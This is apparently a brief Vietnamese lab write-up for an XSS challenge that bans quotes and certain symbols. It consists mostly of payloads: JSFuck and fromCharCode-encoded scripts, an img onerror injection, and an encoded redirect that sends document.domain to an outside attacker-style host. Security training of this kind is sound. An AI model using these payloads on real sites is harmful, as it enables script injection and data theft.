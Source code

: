 ## Phân tích 

Challenge này sẽ không có phép chúng ta sử dụng single quote, double quotes, backtick, ampersand, number sign

## Payload

```
<script>[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+([][[]]+[])[!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+([][[]]+[])[+[]]+((+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+([][[]]+[])[+!+[]]+(!![]+[])[+[]]+(+(+!+[]+[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+[!+[]+!+[]]+[+[]])+[])[+!+[]]+([][[]]+[])[!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+((+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(![]+[])[+!+[]]+([![]]+[][[]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])()</script>
```

```
<script>alert(String.fromCharCode(88,83,83))</script>
```

```
<script>alert(document.domain)</script>
```

```
<img src=x onerror=alert(document.domain)>
```

Một trang web giúp mình encode javascript code thành String.fromCharCode
https://eve.gd/2007/05/23/string-fromcharcode-encoder/

```
<script>eval(String.fromCharCode(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,115,117,112,101,114,101,118,105,108,119,101,98,46,99,111,109,63,99,61,34,43,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,59))</script>
```
